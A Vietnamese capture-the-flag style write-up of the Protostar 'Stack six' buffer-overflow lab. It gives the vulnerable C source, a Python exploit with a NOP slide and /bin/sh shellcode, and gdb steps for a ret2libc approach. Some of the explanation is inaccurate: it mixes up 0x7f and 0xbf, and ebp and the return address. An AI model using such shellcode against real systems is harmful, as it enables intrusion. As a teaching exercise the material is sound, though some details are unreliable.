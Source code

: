 # Stack six

source code:
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {
    printf("bzzzt (%p)\n", ret);
    _exit(1);
  }

  printf("got path %s\n", buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```

Trong chương trình này, hàm main gọi hàm getpath(). getpath() yêu cầu nhập vào một đường dẫn với gets().
`ret = __builtin_return_address(0);` là một hàm của compiler, có thể dùng để đọc current return address từ stack. Và địa chỉ của hàm trả về này được kiểm tra nếu nó bắt đầu với `0xbf`. Nếu bằng thì nghỉ chơi. Hàm này làm chúng ta không thể tận dụng lỗi stack overflow như bình thường vì nguyên cái stack của chúng ta bắt đầu với `0xbf`. 
## Cách 1: Orientated programming
Trong các bài trước chúng ta đã biết stack trông như này:

Thông thường sau khi thực hiện xong hàm getpath() thì chương trình sẽ tìm tới ebp trong stack frame của getpath() và quay về hàm main. 
Nhưng trong trừng hợp này nó không thể trả về do stack luôn bắt đầu với 0x7f
vậy lần này chúng ta sẽ làm cho ebp của chương trình chính là lệnh return, hay nói cách khác là cho ebp chứa chính nó, như vậy chương trình sẽ quay trở lại điểm mà nó vừa nhảy ra. Và điều kiện ret không bắt đầu với 0x7f được thỏa mãn.
Lúc này nó lại tạo ra 1 stack frame mới và lấy lệnh tiếp theo làm ebp, lần này, đi theo ebp sẽ cho chúng ta quay trở lại stack.
phần tiếp theo là stack overflow

```py
import struct
padding = "0000AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSS"
ebp = struct.pack("I", 0x080484f9)
new_ebp = struct.pack("I", 0xbffff7c0)
nopslide = "\x90" *150
payload = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
print padding + ebp + new_ebp + nopslide + payload
```

![Alt text](image.png)
như vậy là xong.

## Cách 2: ret2libc

- Debug stack6

> gdb ./stack6
> set disassembly-flavor intel
> disass getpath
> b *getpath
> r
> info proc map

ta thấy `0xb7e97000` là vị trí bắt đầu của libc còn `0x11f3bf` là địa chỉ của  `"/bin/sh"`. Do vậy:

![Alt text](image-1.png)

> x/s 0xb7e97000+ 0x11f3bf
> info address system (kiểm tra địa chỉ của system)

Để chương trình sau khi thực hiện xong hàm getpath() rồi quay về hàm system trong libc và gọi system("/bin/sh")
- "/bin/sh" phải nằm ở đầu stack sau khi hàm trả về.
- ebp phải là địa chỉ của system bên trong libc
- eip phải bị ghi đè. ở đây chúng ta sẽ ghi thành "AAAA"

stack trông như sau:
![Alt text](image-2.png)

và phần còn lại là:
![Alt text](image-3.png)